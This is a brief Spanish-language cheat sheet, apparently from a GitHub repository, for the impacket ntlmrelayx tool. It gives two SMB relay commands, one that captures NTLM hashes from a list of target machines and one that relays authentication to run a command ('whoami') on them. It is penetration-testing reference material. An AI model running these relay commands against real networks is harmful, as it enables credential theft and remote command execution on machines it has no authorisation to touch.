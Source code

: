 # ntlmrelayx Cheat Sheet

#### SMB Relaying, obteniendo los hash NTLM
```
impacket-ntlmrelayx -tf <FILE-TARGETS>.txt -smb2support
```

#### SMB Relaying, usando un archivo con listado de las maquinas a atacar y enviar un comando
```
impacket-ntlmrelayx -tf <FILE-TARGETS>.txt -smb2support -c "whoami"
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)